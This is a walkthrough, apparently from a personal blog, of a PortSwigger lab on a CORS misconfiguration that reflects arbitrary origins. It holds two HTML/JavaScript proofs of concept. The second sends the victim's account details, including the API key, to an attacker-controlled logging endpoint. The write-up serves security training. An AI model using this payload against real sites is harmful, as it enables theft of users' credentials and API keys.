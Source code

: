```yaml
---
layout: post
title:  "CORS vulnerability with basic origin reflection"
date:   2024-10-16 11:20:54 +0530
---
```


## Introduction

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: **wiener:peter** 

## Solution

Looks like an ecommerce website which we faced in other labs as well 

![]({{ site.baseurl }}/assets/images/cors-1.png)

Through the lab objective, we have also have our own account where you can login using these credentials `wiener:peter` and once after login, we also have our own API key 

![]({{ site.baseurl }}/assets/images/cors-2.png)

Looking into the source, we found a javascript code snippet where it fetches the API key through an endpoint called `/accountDetails` with headers as `credentials: include` which means you should be logged in on any account where as cookie is sent along with the request and then dumps the information in a json format.. Then, it updates an element on the webpage with the ID `apikey` to display the `apikey` from the response data.

```js
fetch('/accountDetails', {credentials:'include'})
      .then(r => r.json())
      .then(j => document.getElementById('apikey').innerText = j.apikey)
```

Accessing the `/accountDetails` endpoint presented with some sensitive values like **sessions, email, APIkey and username** in a JSON format 

![]({{ site.baseurl }}/assets/images/cors-3.png)

In order to check whether the cross origin, we can intercept the request in burpsuite, send it to repeater, send the request and analysing the response shows that the `Access-Control-Allow-Credentials` set to true which means the credentials are allowed to sent along the request 

![]({{ site.baseurl }}/assets/images/cors-4.png)

Now In the request, pass along the header called `Origin:` with a value as `https://example.com` and sent the request.. In the response shows that `ACAO` set to our own example website which we passed via `Origin:` header 

![]({{ site.baseurl }}/assets/images/cors-5.png)

Now with a sample CORS, we can check whether we can dump the info from `/accountDetails` endpoint locally with the following POC

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://0acf00300445651880a44e0c002000f5.web-security-academy.net/accountDetails", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
 ```

Save this as HTML file locally and open in any browser, click on exploit and now you will be presented with the response information as a popup with the current loggedin user 

![]({{ site.baseurl }}/assets/images/cors-6.png)

Now again in order to solve the lab, we need to steal the administrator's API key 

**With the following POC,**

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a90007603b4470f808430ae0091001b.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

In the exploit server, with the above POC and click on deliver to victim.. Checking the access log we can see the admin credentials

![]({{ site.baseurl }}/assets/images/cors-7.png)

Take the admin API key and submit it as solution to solve the lab 

![]({{ site.baseurl }}/assets/images/cors-8.png)